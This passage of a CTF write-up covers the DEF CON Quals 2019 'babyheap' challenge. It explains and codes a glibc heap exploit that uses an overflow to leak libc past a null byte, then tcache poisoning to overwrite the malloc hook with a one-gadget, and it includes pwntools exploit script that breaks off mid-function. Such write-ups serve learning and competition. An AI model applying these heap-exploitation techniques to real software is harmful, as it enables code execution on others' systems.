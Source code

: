 ![overflow to the libc address](/images/defconquals19/babyheap/overflow_to_libc_address.png)

One slight complication is that the least significant byte in the main arena address is always `\x00`, which prevents the libc address from being printed. I addressed this by overwriting it with a non-null value and fixing it up after the address had been leaked.

```python
malloc(challenge, 0xf8, pwn.cyclic(0x20))
malloc(challenge, 0xf8, pwn.cyclic(0xf8) + "\x81") # Change the chunk size from 0x100 to 0x180.
free(challenge, 0)
null_byte_overwrite = 0x41
payload = pwn.cyclic(0x100) + pwn.p8(null_byte_overwrite) # Overwrite the pesky null byte.
malloc(challenge, 0x178, payload) # Allocate right up to the edge of the main arena address.
raw_leak_data = show(challenge, 0)
leaked_address = pwn.u64(raw_leak_data[-6:] + "\x00\x00") - null_byte_overwrite
libc_base_address = leaked_address - libc.sym["main_arena"] - 0x60
```

## Tcache arbitrary write
The plan is to overwrite the malloc hook with a one gadget address, because we have an easy way to get malloc called and we can calculate the address of the one gadget and the malloc hook.

![onegadget](/images/defconquals19/babyheap/one_gadget.png)

To achieve our arbitrary write, we'll trick glibc into returning the arbitrary address when we call malloc. Tcache makes this really easy, because the bins are just singly linked lists and there are almost no corruption checks (at least in 2.29). We'll free a chunk into the tcache bin, overwrite the next pointer using our strengthened overflow primitive, and after a couple of mallocs, our arbitrary address will be returned.

![tcache overflow](/images/defconquals19/babyheap/tcache_overflow.png)

The full exploit script is as follows:
```python
#! /usr/bin/env python2
import pwn

MENU = "Command:"

def malloc(challenge, size, content):
    challenge.sendlineafter(MENU, "M")
    challenge.sendlineafter("Size:", str(size))
    challenge.sendlineafter("Content:", content)


def free(challenge, index):
    challenge.sendlineafter(MENU, "F")
    challenge.sendlineafter("Index:", str(index))


def show(challenge, index):
    challenge.sendlineafter(MENU, "S")
    challenge.sendlineafter("Index:", str(index))
    menu_beginning = "-----Yet Another Babyheap!-----"
    data = challenge.recvuntil(menu_beginning)

    # Remove the stuff we don't care about.
    data = data[3:-(len(menu_beginning) + 1)]

    return data

def pack_address_and_remove_nulls(address_to_pack):
    # We can't write null bytes, so we need to shorten the payload to just the bits we need.
    packed_address = pwn.p64(address_to_pack)
```